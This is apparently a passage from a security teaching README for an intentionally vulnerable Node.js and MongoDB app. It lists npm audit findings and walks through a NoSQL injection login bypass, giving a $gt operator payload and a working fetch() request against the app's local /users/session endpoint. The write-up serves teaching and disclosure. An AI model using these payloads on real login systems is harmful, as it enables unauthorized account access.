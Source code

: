     Particularly in this application I intentionally use out-of-date components and we have `found 7 vulnerabilities (3 low, 1 moderate, 2 high, 1 critical) in 2504 scanned packages` through `npm audit`: DOS from both mongoDb and path monk>mongoDb, code injection from Morgan, 'incorrect handling of non-boolean comparisons during minification' and 'regular expression DOS' from path jade>transformers>uglify-js, 'regular expression DOS' from jade>clean-css, and 'Sandbox Bypass Leading to Arbitrary Code Execution' from jade>constantinopl.    
    
    To fix the vulnerability, the application should update all its packages using a simple command `npm audit fix` to update packages. If some known vulnerabilities is not fixed by update of the package sources, we should consider use other secure components (with its dependencies being also secure) to replace the insecure ones. We should also make an ongoing plan for monitoring, triaging, and applying updates or configuration changes for the application. 

1. **NoSql injection attack**

    Normally people talk about SQL Injection. However, although we no longer deal with a query language in the form of a string, a [NoSQL injetion attack](https://www.owasp.org/index.php/Testing_for_NoSQL_injection) is also possible with their own operators and syntax. 

    In this application, when authenticating user into the system, we have a end point when doing a POST request to `/users/session`. And in this function (/routes/users.js, line 59, called by public/javascripts/global.js line 177), we get 
    ```javascript
    collection.findOne({ username: req.body.username, password: req.body.password })
    ```

    As we note in the request end point `/users/session`, there's no validation for username and password type to be string and also no proper sanitization on both the client and server side. Therefore, as we assume that the username field is coming from a deserialized JSON object, manipulation of the above query is easy. When the JSON document is deserialized, those fields may contain malicious input like below.
    ```javascript
    {
        "username": {"$gt": ""},
        "password": {"$gt": ""}
    }
    ```

    In MongoDB, the field $gt has a special meaning, which is used as the greater than comparator. As such, the username and the password from the database will be compared to the empty string "" and as a result return a true statement. Then the query would return a user in the database and the end-point would login that user, and hence result a login bypass.

    To exploit such vulnerability in our application, we could have the following code in the console. Then when refreshing the page, we are in the session of a user in the database.
    ```javascript 
    await fetch("http://localhost:3000/users/session", 
      {"credentials":"include",
       "headers":
        {"accept":"application/json, text/javascript, */*; q=0.01",
         "accept-language":"en,zh-CN;q=0.9,zh;q=0.8",
         "cache-control":"no-cache",
         "content-type":"application/x-www-form-urlencoded; charset=UTF-8",
         "pragma":"no-cache",
         "sec-fetch-mode":"cors",
         "sec-fetch-site":"same-origin",
         "x-requested-with":"XMLHttpRequest"},
       "referrer":"http://localhost:3000/",
       "referrerPolicy":"no-referrer-when-downgrade",
       "body":"username[$gt]=&password[$gt]=",
       "method":"POST",
       "mode":"cors"});
    ```
